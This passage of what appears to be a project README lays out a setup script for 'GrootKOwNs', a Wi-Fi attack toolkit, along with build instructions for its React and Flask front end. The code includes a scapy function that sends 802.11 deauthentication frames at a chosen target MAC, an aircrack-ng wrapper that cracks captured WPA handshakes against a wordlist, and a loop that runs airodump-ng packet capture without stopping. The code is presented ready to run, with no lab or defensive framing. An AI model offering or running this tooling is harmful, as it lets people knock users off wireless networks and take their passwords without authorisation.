    threading.Thread(target=start_capture, args=(iface,)).start()
    
    # Automated scanning and capturing
    while True:
        os.system(f'sudo airodump-ng {iface} --write grootkowns --output-format pcap')
        time.sleep(10)  # Adjust sleep duration as needed
""",
        "crack.py": """
import os

def crack_password(handshake_file, wordlist_file, bssid):
    os.system(f"aircrack-ng -w {wordlist_file} -b {bssid} {handshake_file}")
""",
        "deauth.py": """
from scapy.all import *

def deauth_attack(target_mac, gateway_mac, iface):
    dot11 = Dot11(addr1=target_mac, addr2=gateway_mac, addr3=gateway_mac)
    packet = RadioTap()/dot11/Dot11Deauth(reason=7)
    sendp(packet, inter=0.1, count=100, iface=iface, verbose=1)
""",
        "main.py": """
import capture
import deauth
import crack
import web

def main():
    print("Starting GrootKOwNs system...")
    choice = input("Choose an option:\\n1. Start GrootKOwNs\\n2. Start Web Interface\\n> ")

    if choice == '1':
        capture.start_grootkowns()
    elif choice == '2':
        web.start_web_interface()
    else:
        print("Invalid choice. Exiting...")

if __name__ == "__main__":
    main()
""",
        "storage.py": """
import json
import os

PACKET_FILE = 'packets.json'
HANDSHAKE_FILE = 'handshakes.json'
ANALYSIS_FILE = 'analysis.json'
VISUALIZATION_FILE = 'visualization_data.json'

def store_packet(packet, analysis):
    data = {
        'src': packet.addr2,
        'dst': packet.addr1,
        'info': packet.summary(),
        'analysis': analysis.tolist()  # Convert tensor to list for JSON serialization
    }
    with open(PACKET_FILE, 'a') as f:
        f.write(json.dumps(data) +

 '\\n')

def store_packet_for_visualization(packet):
    data = {
        'type': packet.type,
        'subtype': packet.subtype,
        'src': packet.addr2,
        'dst': packet.addr1
    }
    with open(VISUALIZATION_FILE, 'a') as f:
        f.write(json.dumps(data) + '\\n')

def read_visualization_data():
    if os.path.exists(VISUALIZATION_FILE):
        with open(VISUALIZATION_FILE, 'r') as f:
            return [json.loads(line) for line in f]
    return []
""",
        "web.py": """
from flask import Flask, render_template, jsonify
import storage
import io
import base64
import matplotlib.pyplot as plt
import seaborn as sns

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/log')
def log():
    with open('packets.json', 'r') as f:
        logs = f.readlines()
    return jsonify(logs)

@app.route('/visualize_traffic')
def visualize_traffic():
    data = storage.read_visualization_data()
    src_counts = {}
    for entry in data:
        src = entry['src']
        if src in src_counts:
            src_counts[src] += 1
        else:
            src_counts[src] = 1

    src_labels = list(src_counts.keys())
    src_values = list(src_counts.values())

    plt.figure(figsize=(10, 6))
    sns.barplot(x=src_labels, y=src_values)
    plt.xlabel('Source MAC Address')
    plt.ylabel('Packet Count')
    plt.title('Network Traffic by Source MAC Address')
    plt.xticks(rotation=45, ha='right')
    plt.tight_layout()

    img = io.BytesIO()
    plt.savefig(img, format='png')
    img.seek(0)
    plot_url = base64.b64encode(img.getvalue()).decode('utf8')
    plt.close()

    return jsonify({'plot_url': f"data:image/png;base64,{plot_url}"})

@app.route('/visualize_attack_vectors')
def visualize_attack_vectors():
    data = storage.read_visualization_data()
    attack_data = [entry for entry in data if entry['type'] == 0 and entry['subtype'] == 12]

    src_counts = {}
    for entry in attack_data:
        src = entry['src']
        if src in src_counts:
            src_counts[src] += 1
        else:
            src_counts[src] = 1

    src_labels = list(src_counts.keys())
    src_values = list(src_counts.values())

    plt.figure(figsize=(10, 6))
    sns.barplot(x=src_labels, y=src_values)
    plt.xlabel('Source MAC Address')
    plt.ylabel('Attack Packet Count')
    plt.title('Attack Vectors by Source MAC Address')
    plt.xticks(rotation=45, ha='right')
    plt.tight_layout()

    img = io.BytesIO()
    plt.savefig(img, format='png')
    img.seek(0)
    plot_url = base64.b64encode(img.getvalue()).decode('utf8')
    plt.close()

    return jsonify({'plot_url': f"data:image/png;base64,{plot_url}"})

def start_web_interface():
    app.run(host='0.0.0.0', port=5000)
""",
        "requirements.txt": """
Flask
scapy
waitress
requests
transformers
torch
matplotlib
seaborn
""",
        "download_model.py": """
from transformers import BertTokenizer, BertModel

# Load TinyBERT and download the weights
tokenizer = BertTokenizer.from_pretrained('huawei-noah/TinyBERT_General_4L_312D')
model = BertModel.from_pretrained('huawei-noah/TinyBERT_General_4L_312D')

print("Model and tokenizer downloaded.")
"""
    }
}

def create_project_structure(base_path, structure):
    for name, content in structure.items():
        path = os.path.join(base_path, name)
        if isinstance(content, dict):
            os.makedirs(path, exist_ok=True)
            create_project_structure(path, content)
        else:
            with open(path, 'w') as file:
                file.write(content)

create_project_structure('.', project_structure)
```

## How to Run the Setup Script

1. Save the above script as `GrootKOwNs_setup.py`.
2. Open a terminal and navigate to the directory where you saved `GrootKOwNs_setup.py`.
3. Run the script:
    ```bash
    python3 GrootKOwNs_setup.py
    ```

This will generate the entire project structure and files for GrootKOwNs.

### Final Steps

1. **Navigate to the `client` directory and install npm packages:**
    ```bash
    cd grootkowns/client
    npm install
    ```

2. **Build the React app:**
    ```bash
    npm run build
    ```

3. **Navigate back to the root directory and run the Flask server:**
    ```bash
    cd ..
    python3 main.py
    ```

Navigate to `http://localhost:5000` in your browser to use the GrootKOwNs interface.

## fix updated script `setup_grootkowns.sh`:

### `setup_grootkowns.sh`

```bash
#!/bin/bash

# Navigate to the client directory
cd /home/groot/GITHub/Groot/Tools/grootkowns/client || exit

# Ensure the required directories and files are present
mkdir -p public src

# Create a basic index.html if it doesn't exist
if [ ! -f public/index.html ]; then
  echo "Creating index.html in the public directory..."
  cat > public/index.html <<EOL
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>GrootKOwNs</title>
  </head>
  <body>
    <div id="root"></div>
  </body>
</html>
EOL
fi

# Create a basic index.js if it doesn't exist
if [ ! -f src/index.js ]; then
  echo "Creating index.js in the src directory..."
  cat > src/index.js <<EOL
import React from 'react';
import ReactDOM from 'react-dom';
import './index.css';

function App() {
  return (
    <div>
      <h1>GrootKOwNs</h1>
      <p>Welcome to GrootKOwNs!</p>
    </div>
  );
}

ReactDOM.render(<App />, document.getElementById('root'));
EOL
fi

# Delete package-lock.json and node_modules
echo "Deleting package-lock.json and node_modules..."
rm -rf package-lock.json node_modules

# Update package.json to ensure no eslint dependency issues
echo "Updating package.json..."
sed -i '/"eslint"/d' package.json

# Reinstall dependencies
echo "Reinstalling dependencies..."
npm install

# Fix vulnerabilities
echo "Running npm audit fix..."
npm audit fix
echo "Running npm audit fix --force..."
npm audit fix --force

# Create .env file to skip preflight check if necessary
echo "Creating .env file to skip preflight check..."
echo "SKIP_PREFLIGHT_CHECK=true" > .env

# Build the project
echo "Building the project..."
npm run build

# Provide feedback to the user
echo "Setup and build process completed. If no errors occurred, you can now run the application using 'python3 main.py' from the project root directory."

# Exit script
exit 0
```

### How to Use the Updated Script

1. **Save the Script:**
   Save the updated script as `setup_grootkowns.sh`.

2. **Make the Script Executable:**
   Open a terminal and navigate to the directory where the script is saved. Then, make the script executable:
   ```bash
   chmod +x setup_grootkowns.sh
   ```

3. **Run the Script:**
   Execute the script:
   ```bash
   ./setup_grootkowns.sh
   ```

This updated script checks for the existence of the necessary `index.html` and `index.js` files and creates them if they are missing, ensuring that the build process can proceed successfully. Once the script completes, you can run the Flask application using:

```bash
python3 main.py
```


